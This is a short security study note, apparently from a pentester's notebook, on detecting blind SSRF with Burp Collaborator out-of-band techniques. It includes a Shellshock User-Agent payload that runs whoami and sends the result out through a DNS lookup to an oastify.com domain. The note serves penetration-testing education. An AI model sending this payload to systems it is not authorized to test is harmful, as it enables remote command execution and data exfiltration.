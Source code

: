 # Blind SSRF
The most reliable way to detect blind SSRF vulnerabilities is using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques. This involves attempting to trigger an HTTP request to an external system that you control, and monitoring for network interactions with that system.

The easiest and most effective way to use out-of-band techniques is using **Burp Collaborator**. You can use **Burp Collaborator** to generate unique domain names, send these in payloads to the application, and monitor for any interaction with those domains.

##### Note
It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but *no subsequent HTTP request*. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the *actual HTTP request was blocked by network-level filtering*. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.


## Blind SSRF with Shellshock Exploitation
#blindssrf 

- Insert the [[Shellshock]] Payload such that the request is sent to our domain.
Example :-
```http
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).urpy7yzusv8iimmebks3alqei5owct0i.oastify.com;
```

`$(whoami)`: This is a command substitution. The `whoami` command returns the username of the currently logged-in user. The output of `whoami` is then substituted into the command, resulting in the username being appended to the domain name.

---
# Automation
Automatically find SSRF Vulnerable End-Points using **Collaborator Everywhere**!
First put the domain name in the **Scope**, then check in Issue Activity whether you've found an SSRF Vulnerability!

![[Pasted image 20230705194958.png]]
